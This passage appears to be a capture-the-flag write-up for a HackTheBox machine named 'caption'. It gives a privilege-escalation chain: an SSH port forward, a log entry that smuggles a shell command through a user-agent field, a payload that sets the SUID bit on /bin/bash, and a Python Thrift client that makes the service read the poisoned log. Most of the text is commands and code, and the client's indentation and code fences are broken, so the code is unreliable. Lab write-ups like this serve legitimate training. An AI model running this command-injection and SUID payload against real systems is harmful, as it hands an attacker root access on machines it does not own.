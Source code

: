 ![](https://miro.medium.com/v2/resize:fit:700/0*8Aomq4_gmkP6ufDs)

`ssh -i id_rsa -L 9090:127.0.0.1:9090 margo@caption.htb`

Create this file on `/tmp/malicious.log` on the remote machine:

`127.0.0.1 "user-agent":"'; /bin/bash /tmp/payload.sh #"`

Create this file on `/tmp/payload.sh` on the remote machine:

`chmod +s /bin/bash`

On your machine  
Create a file named `log_service.thrift` with the following content:
```
namespace go log_service    
    
service LogService {    
string ReadLogFile(1: string filePath)    
}
```
then

`pip3 install thrift`

`thrift -r --gen py log_service.thrift`

Then `cd gen-py` and create this file as `client.py`:
```
from thrift import Thrift    
from thrift.transport import TSocket    
from thrift.transport import TTransport    
from thrift.protocol import TBinaryProtocol    
from log_service import LogService # Import generated Thrift client code   
    
def main():    
# Set up a transport to the server   
transport = TSocket.TSocket('localhost', 9090)    
    
# Buffering for performance   
transport = TTransport.TBufferedTransport(transport)    
    
# Using a binary protocol   
protocol = TBinaryProtocol.TBinaryProtocol(transport)    
    
# Create a client to use the service   
client = LogService.Client(protocol)    
    
# Open the connection   
transport.open()    
    
try:    
# Specify the log file path to process   
log_file_path = "/tmp/malicious.log"    
``` 
# Call the remote method ReadLogFile and get the result   
``` 
response = client.ReadLogFile(log_file_path)    
print("Server response:", response)    
    
except Thrift.TException as tx:    
print(f"Thrift exception: {tx}")    
```
